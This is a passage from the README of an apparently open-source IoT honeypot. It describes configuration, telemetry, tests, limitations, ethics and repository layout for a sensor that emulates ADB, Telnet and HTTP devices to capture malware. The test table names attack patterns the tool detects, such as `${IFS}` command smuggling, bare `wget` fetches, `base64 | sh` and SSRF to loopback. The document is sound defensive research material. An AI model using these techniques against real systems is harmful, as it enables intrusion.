| `HP_PROFILE_SEED` | empty | Identifier seed; empty = random, persisted in `HP_LOG_DIR/profile.seed` |
| `HP_CAPTURE_PUSH` | `true` | Keep the bytes of `adb push` / shell-written files |
| `HP_MAX_PUSH_BYTES` | `15728640` | Per-file cap for pushes (**max 15 MiB**, validated) |
| `HP_PUSH_SESSION_TIMEOUT` | `60s` | Session deadline once a push starts (>= `HP_SESSION_TIMEOUT`, **max 120 s**) |
| `TELEGRAM_BOT_TOKEN` / `TELEGRAM_CHAT_ID` | empty | Both or neither; empty disables alerts |
| `HP_TG_PER_MIN` / `HP_TG_BURST` | `20` / `5` | Global Telegram budget |
| `HP_ALERT_COOLDOWN` / `HP_ALERT_CAMPAIGN_COOLDOWN` | `6h` / `6h` | De-duplication windows (same attacker + attack / same payload from anyone) |
| `ABUSEIPDB_API_KEY` | empty | Free AbuseIPDB key; empty = reporting off ([details](ABUSEIPDB.md)) |
| `HP_ABUSE_REPORT` / `HP_ABUSE_REPORT_BRUTE` | `true` / `true` | Pause reporting without removing the key / also report pure password guessing (no Telegram alert) |
| `HP_ABUSE_WINDOW` / `HP_ABUSE_STATE` | `24h` / `<HP_LOG_DIR>/abuseipdb-state.json` | Minimum gap between reports of one address (min 1h) / state file (`off` disables) |
| `HP_DIGEST_ENABLED` | `true` | Weekly digest on/off |
| `HP_DIGEST_DAY` / `HP_DIGEST_AT` | `mon` / `09:00` | Day of week and time (UTC) |
| `HP_DIGEST_TOP` / `HP_DIGEST_ENRICH_MAX` | `10` / `200` | Entries per ranking / extra geo lookups per digest |

## 11. Telemetry and analysis

Each session becomes one JSON object in `data/events-YYYY-MM-DD.jsonl`
(UTC, daily rotation): endpoints, protocol/action, HTTP fields, truncated
payload, commands, credentials, extracted IOCs, ATT&CK tags, download results
(status, SHA256, file type, size), files dropped on the emulated device (path,
delivery channel, mode, SHA-256), geo/ASN and whether an alert was sent. The
data-collection plan, metric definitions and SQLite schema are in
[`THREAT_INTELLIGENCE_PLAN.md`](THREAT_INTELLIGENCE_PLAN.md).

```bash
cd analysis
python3 -m venv .venv && . .venv/bin/activate && pip install -r requirements.txt
python load_events.py ../data --db ../data/honeypot.sqlite   # JSONL -> normalised SQLite
HP_DB=../data/honeypot.sqlite python threat_report.py        # figures/ + summary.md
python build_notebook.py                                     # optional: threat_report.ipynb
```

The report covers volumes, ASN/country, service mix, ATT&CK techniques,
credentials, download outcomes, payload families, **files left on the device and
their delivery channels** (section 9) and the **command vocabulary** attackers
use in the shell (section 10). Prometheus counters
`honeypot_files_captured_total` / `honeypot_files_not_captured_total` track
captures.

To develop the analysis before you have real data, `analysis/make_sample_data.py`
generates **synthetic** events (documentation-only ASNs `AS64496+`, IDs prefixed
`SYN-`). Never present synthetic output as measurements.

## 12. Testing and measured performance

`make check` runs `go vet`, a `gofmt` check and the full suite under the race detector.

| Package | What is verified |
|---|---|
| `ratelimit` | Burst/refill, subnet aggregation, IPv4-mapped IPv6, sweep and fail-closed key bound |
| `parser` | Protocol detection, incremental HTTP parsing, lying `Content-Length`, leftover bytes, ADB framing/limits, Telnet IAC stripping |
| `ioc` | XML-namespace blacklist, `&&` / `${IFS}` / percent-encoded / entity-encoded URLs, bare `wget IP/path`, public-IP filter, TLD-restricted domains |
| `mitre` | Rules per technique; scanner with a `curl` User-Agent produces **no** tags |
| `downloader` | Content-addressed storage and non-executable mode, size and time limits, dead link, HTTP errors, **SSRF to loopback and via redirect**, quota, scheme checks, `IsPublic` table |
| `alert` | Exact layout, HTML escaping, 4096-char limit with worst-case expansion, dedupe, global rate limit, API errors, **token redaction** |
| `session` | HTTP with a lying `Content-Length`, leftover bytes, ADB (real framing round-trip with `OKAY`/`WRTE`/`CLSE`), per-session byte budget, connect-only scans |
| `store` | Concurrent writes stay valid JSON Lines, daily rotation, no HTML escaping, analysis-only fields not persisted |
| `abuseipdb` | Request format (path, `Key`/`Accept` headers, form fields), categories, comment without live links or personal data, public-IP filter, 24 h window, 429 / Retry-After, 401 switches reporting off, 422 not retried, 5xx back-off, state file persistence, non-blocking queue, **shutdown drains the queue** |
| `config` | Hard ceilings (5 s / 15 MiB) rejected when exceeded, aggregated error reporting, `.env` parsing, the shipped `.env.example` validates |
| `payloadstore` | Content addressing, de-duplication with sightings, size cap leaves nothing behind, in-flight quota, stale temp cleanup, concurrency, file-type sniffing |
| `profile` | Built-ins validate, strict decoding, placeholder expansion, seed determinism and variation, size/shape limits |
| `vfs` | Copy-on-write isolation between sessions, harvesting of deleted/overwritten files, budgets, `/proc`+`/sys` writes swallowed |
| `shell` | Pipes, redirects, quoting, loops, `sh -c`, `base64 | sh` revealed lines, step/output limits, not-found format per profile, pretended downloads |
| `e2e` (simulation) | `TestFullSensorSimulation`: 42 research-based scenarios over real sockets against all six ports and both device profiles with fake Telegram, AbuseIPDB and malware servers; checks alert / report decisions, signatures, ATT&CK tags, IOCs, captured samples, repeat suppression and reconnaissance coverage. Report: [SIMULATION_REPORT.md](SIMULATION_REPORT.md) |
| `e2e` | Real sockets: **600 KB `adb push` -> sample on disk (byte-identical) -> chmod/exec/rm -> alert with SHA-256 -> JSONL -> T1105**; SOAP exploit -> payload captured and hashed -> alert -> JSONL; ADB; Telnet brute force + probe; Slowloris; graceful shutdown with a live connection; admission-control flood |

Performance (indicative; `go test -bench HTTPSession -benchtime 4s ./internal/e2e`):
a complete session (accept, admission control, worker dispatch, protocol
detection, HTTP parse, emulated reply, event emission) costs about **50 µs**
wall-clock under parallel load, i.e. roughly **20 000 sessions/s**, with no
drops or panics, ~11 KB and 48 allocations per session (this includes the
benchmark client). Measured on a 2-vCPU Intel Xeon @ 2.1 GHz with client and
server sharing the same machine over loopback — treat it as an order of
magnitude, not a capacity guarantee; real traffic is dominated by connection
latency and by the rate limiter, not by CPU.

## 13. Limitations and future work

* **Fingerprintability** (T8): identifiers are randomised per deployment, but the *behaviour* (canned outputs, fixed timing, a shell that is an emulator) can still be detected by a determined adversary. Compare against a medium-interaction deployment to measure sensor bias.
* **The shell is an emulator, not a system.** No command substitution (`$(...)` stays literal), no real arithmetic or process semantics, `wget`/`curl` are pretended; unusual scripts may get unrealistic output and therefore end the session early. Files do not persist across sessions (each connection gets a fresh copy-on-write file system).
* **Pushed files read back from the sample store**, so `cat`, `md5sum`, `head -c`, `dd`, `xxd`, `od` of an uploaded file return the real bytes (budgeted at 64 MiB of reads per session). Only a push that could not be stored (quota, size or per-session cap) reads as empty while `ls` still shows its size. Large copies (`cp bot bot2` above 512 KiB) fail with *No space left on device*.
* **Device binaries are synthetic ELF images** (`cat /bin/echo`, `dd bs=52 count=1 if=/bin/busybox`, `/proc/self/exe`): a valid header for the profile's CPU followed by deterministic filler. Enough for architecture detection and checksums, not for anything that parses section tables or runs `readelf`.
* **Pushes are always acknowledged**, even if the sample could not be stored (quota, per-session cap), by design (see section 3.1); the event records the real status.
* **Two personas on one IP** (ADB Android box + Telnet BusyBox router, the shipped example) are incoherent to a correlating adversary; set `HP_TELNET_PROFILE=` to use one device.
* **No TLS** services and no FTP/TFTP payload fetching (only `http`/`https` are downloaded; others are reported as skipped).
* **ATT&CK mapping is rule-based**: expect false positives/negatives on novel exploits; rules are intentionally explicit so they can be audited and tuned.
* **IPv4 IOC addresses only**; IPv6 payload hosts are caught only via URLs.
* **ip-api.com free tier** is HTTP-only and rate limited (only the attacker IP is sent); for production use a licensed or offline MaxMind/RIR dataset.
* **Malware family labels** in the notebook are file-name heuristics; confirm with multi-engine services and YARA.
* Single node; rate-limiter and dedupe state are in memory and reset on restart.
* **Verification status of the deployment artefacts.** `install.sh` is `shellcheck`-clean and was run end to end on Ubuntu 24.04 up to the image build (`--yes --no-start`, configuration, port checks, `--uninstall`). The final (`scratch`) stage of the Dockerfile was built and run with the Compose hardening flags (UID 10001, read-only root, `cap_drop ALL`, healthcheck healthy, graceful stop, bind-mount ownership, real traffic captured). The first stage (`golang:1.24-alpine`) could not be pulled in the sandbox, and `docker compose up --build` as a whole was not run; CI builds the image on every push. Review your first deployment.
* Future work: YARA scanning of captured files, STIX 2.1 export, correlation of payload infrastructure over time, multi-sensor deployment in different networks to test sensor bias.

## 14. Ethics and legal considerations

* Run it only on infrastructure you own or are authorised to use, and check your provider's acceptable-use policy about hosting honeypots.
* The sensor is **passive and non-deceptive toward third parties**: it never attacks, scans or relays attacker traffic. The only outbound activity is a bounded `GET` of URLs the attacker supplied, plus calls to ip-api and Telegram.
* IP addresses can be personal data (e.g. under the GDPR). Keep only what the study needs, define a retention period, and aggregate before publishing. Do not publish raw logs or identify individuals.
* Handle captured malware as dangerous material (section 8, step 9). Report malicious infrastructure to the relevant abuse contacts rather than retaliating.

## 15. References

1. N. Provos, "A Virtual Honeypot Framework," *USENIX Security Symposium*, 2004.
2. L. Spitzner, *Honeypots: Tracking Hackers*, Addison-Wesley, 2002.
3. M. Antonakakis et al., "Understanding the Mirai Botnet," *USENIX Security Symposium*, 2017.
4. MITRE, *ATT&CK for Enterprise* — https://attack.mitre.org/ (T1190, T1059.004, T1105, T1110.001, T1082, T1496).
5. OWASP, *Server-Side Request Forgery Prevention Cheat Sheet*.
6. Telegram, *Bot API — sendMessage and HTML formatting rules* — https://core.telegram.org/bots/api

## 16. Repository layout

```
cmd/honeypot/            entry point: config, wiring, signals, -healthcheck
internal/
  config/                environment loading, validation, hard safety ceilings
  ratelimit/             token bucket per subnet + global bucket
  server/                listeners, worker pool, admission control, graceful shutdown
  session/               protocol sniffing, HTTP / ADB (shell, sync/push) / Telnet emulation
  profile/               device "legend" profiles (JSON, embedded built-ins), placeholders
  shell/                 shell emulator (lexer, parser, ~150 commands) - never executes
  vfs/                   in-memory copy-on-write file system, harvesting of written files
  payloadstore/          quota-bounded, content-addressed sample store, file-type sniffing
  parser/                HTTP, ADB framing, Telnet IAC, sanitisation
  ioc/                   URL / IP / domain extraction, FP blacklist
  mitre/                 ATT&CK mapping
  downloader/            SSRF-safe payload capture
  enrich/                ASN / country lookup (ip-api.com)
  alert/                 Telegram formatting and delivery
  digest/                weekly Telegram summary (JSONL aggregation, scheduler)
  store/                 JSONL writer
  pipeline/              asynchronous event processing
  metrics/               counters, /healthz, /metrics
  e2e/                   end-to-end tests and benchmark
analysis/                SQLite loader, report script, notebook builder, synthetic data
docs/                    PROFILES.md (profile authoring), THREAT_INTELLIGENCE_PLAN.md
scripts/                 rename-module.sh (set the GitHub module path)
.github/                 CI, release workflow, Dependabot, issue / PR templates
install.sh               one-command installer / updater / uninstaller (Debian/Ubuntu)
Dockerfile  docker-compose.yml  .env.example  Makefile
LICENSE  SECURITY.md  CONTRIBUTING.md  CODE_OF_CONDUCT.md  CHANGELOG.md  CITATION.cff
```

## 17. Contributing, license and publishing

**License:** MIT ([`LICENSE`](../LICENSE)). Contributions are welcome, see
[`CONTRIBUTING.md`](../CONTRIBUTING.md); vulnerabilities go through the private
channel in [`SECURITY.md`](../SECURITY.md). Please cite via [`CITATION.cff`](../CITATION.cff).

**Responsible use.** This is a defensive research tool. Deploy only on
infrastructure you own or are authorised to use, keep captured samples away
from machines you care about, and do not use the project to attack or deceive
third parties.

**Publishing checklist (maintainers)**

1. `scripts/rename-module.sh github.com/<you>/iot-honeypot` (go.mod, imports, URLs), then `make check`.
2. Verify nothing private is tracked: `git status --ignored`; `.env`, `data/`, `captured_payloads/` must be ignored.
3. Enable on GitHub: *Settings -> Code security*: private vulnerability reporting, Dependabot alerts, secret scanning.
4. Push; confirm the CI workflow is green (tests, vet, govulncheck, shellcheck, Docker build, analysis pipeline).
5. Tag `v1.0.0` (`git tag v1.0.0 && git push --tags`): the release workflow publishes static binaries and `SHA256SUMS`.
6. Never publish raw logs or captured samples; aggregate and anonymise IPs before sharing datasets.
